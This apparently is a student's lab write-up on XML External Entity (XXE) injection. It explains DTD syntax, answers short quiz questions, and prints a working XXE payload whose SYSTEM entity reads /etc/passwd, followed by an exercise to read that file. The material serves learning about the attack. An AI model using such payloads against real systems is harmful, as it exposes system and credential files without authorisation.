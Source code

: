 ```xml
<!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)> <!ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)> ]>
```

Here is how the DTD valaidates the XML:

* !DOCTYPE note -  Defines a root element of the document named note
* !ELEMENT note - Defines that the note element must contain the elements: "to, from, heading, body"
* !ELEMENT to - Defines the 'to' element to be of type "#PCDATA"
* !ELEMENT from - Defines the 'from' element to be of type "#PCDATA"
* !ELEMENT heading  - Defines the 'heading' element to be of type "#PCDATA"
* !ELEMENT body - Defines the 'body' element to be of type "#PCDATA"

\#PCDATA means parseable character data

**Questions**

	1. How do you define a new ELEMENT?

!ELEMENT

	2. How do you define a ROOT element?

!DOCTYPE

	3. How do you define a new ENTITY?

!ENTITY

### XXE Payload

We can create our own payloads, in this example we will attempt to use the SYSTEM keyword in order to retrive the contents of /etc/passwd.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

This kind of payload can be used to attempt to read files, however this can often fail.

### Exploiting

**Questions**

	1. Try to display your own name using any payload.

```xml
<!DOCTYPE name>
 <userInfo>
  <firstName>Gabriel</firstName>
  <lastName>Cullen</lastName>
 </userInfo>
 ```

	2. See if you can read the /etc/passwd
